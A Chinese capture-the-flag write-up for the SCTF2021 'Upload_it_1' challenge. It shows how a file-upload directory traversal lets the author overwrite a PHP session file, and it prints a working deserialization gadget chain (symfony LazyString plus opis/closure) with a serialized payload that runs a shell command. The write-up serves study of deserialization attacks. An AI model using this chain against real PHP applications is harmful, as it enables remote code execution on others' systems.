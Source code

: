 # [SCTF2021]Upload_it_1复现闭包组件反序列化rce


# 题目地址
SycloverTeam提供了题目的docker环境
https://github.com/SycloverTeam/SCTF2021/tree/master/web/Upload_it_1
# wp
首先题目给了composer.json
```
{
    "name": "sctf2021/upload",
    "authors": [
        {
            "name": "AFKL",
            "email": "upload@qq.com"
        }
    ],
    "require": {
        "symfony/string": "^5.3",
        "opis/closure": "^3.6"
    }
}
```
导入了两个包，那就肯定是组件相关的攻击了
```
"symfony/string": "^5.3",
"opis/closure": "^3.6"
```
composer update一下

![在这里插入图片描述](https://img-blog.csdnimg.cn/20e5d9324d4747ab93b8929ee3fad478.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

第二个组件是关于闭包反序列化的，所以猜测和序列化有关
![在这里插入图片描述](https://img-blog.csdnimg.cn/fb6af44b8bb746db86d41328ee7752e9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)




index.php内的主要逻辑代码
```php
if (!empty($_POST['path'])) {
    $upload_file_path = $_SESSION["upload_path"]."/".$_POST['path'];
    $upload_file = $upload_file_path."/".$file['name'];
} else {
    $upload_file_path = $_SESSION["upload_path"];
    $upload_file = $_SESSION["upload_path"]."/".$file['name'];
}

if (move_uploaded_file($file['tmp_name'], $upload_file)) {
    echo "OK! Your file saved in: " . $upload_file;
} else {
    echo "emm...Upload failed:(";
}
} else {
echo "too big!!!";
}
```
这里会调用`$_SESSION["upload_path"]`，那么考虑到session反序列化
题目测试到，上传可以进行目录穿越，但是只有tmp目录可写

![在这里插入图片描述](https://img-blog.csdnimg.cn/2fdd65dc82ed4b349ae79743419ac2fd.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)



题目有给到phpinfo()，打开看一下，path没给，但是能操作的目录只有tmp，那么肯定就是/tmp/sess_xxxx了

![在这里插入图片描述](https://img-blog.csdnimg.cn/d628cc1bba3545c1be887421822e90f2.png)

那么我们就是可以操控session文件了，所以我们现在的目的就是怎么去构造一个session文件去rce
可以看到index.php里面session拼接了：` $_SESSION["upload_path"]."/".$_POST['path'];`
所以如果` $_SESSION["upload_path"]`是一个对象的话，那就会触发一个__toString方法了
那么我们就去找一个可以利用的__toString方法，这里是可以利用的在LazyString这里找到利用的方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/3108d16f83294fecb5eb4cd68d4e1bcd.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

再看到这个组件，opis/closure，可序列化闭包，那么我们就可以通过创建一个攻击性的闭包去反序列化，这样完成我们的攻击
那么如此，我们就可以构造我们的exp了

```php
<?php

namespace Symfony\Component\String {
    class LazyString {
        private $value;
        public function __construct($a){
            $this->value = $a;
        }
    }
}

namespace {
    include_once "../vendor/autoload.php";
    $func = function() {system("cat /flag");};
    $raw = \Opis\Closure\serialize($func);
    $data = unserialize($raw);
    $exp = new \Symfony\Component\String\LazyString($data);
    echo urlencode(serialize($exp));
}
```
payload，注意%00的解码，前面拼接上`upload_path|`
```php
upload_path|O:35:"Symfony\Component\String\LazyString":1:{s:42:"%00Symfony\Component\String\LazyString%00value";C:32:"Opis\Closure\SerializableClosure":157:{a:5:{s:3:"use";a:0:{}s:8:"function";s:34:"function() {\system("cat /flag");}";s:5:"scope";N;s:4:"this";N;s:4:"self";s:32:"0000000045e636f7000000007352e912";}}}
```


![在这里插入图片描述](https://img-blog.csdnimg.cn/88a2f5b18f02475e8a764f21e9781eea.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

再次上传文件，利用session去拼接调用__toString方法，成功rce

![在这里插入图片描述](https://img-blog.csdnimg.cn/0fffc8f42fc54f519e72a8611e9e1c43.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

# 预期解
看了作者给的wp，发现预期解是通过__sleep方法去调用__toString方法的

![在这里插入图片描述](https://img-blog.csdnimg.cn/c40530e72fb84051a0e4d17f03d676c5.png)

而php原生的session执行反序列化的时候，的确会调用__sleep方法

# 思路
这道题的整个的思路就是：
- 首先测试到上传的文件可以进行目录穿越，但是只有tmp目录有权限
- 源码中观察到闭包反序列化组件，方向可能是反序列化，执行composer update安装源码
- 有session的使用，可以上传文件到tmp，而且有session的使用，而且phpinfo中有写是file，所以考虑到是session反序列化
- 构造闭包去序列化打rce


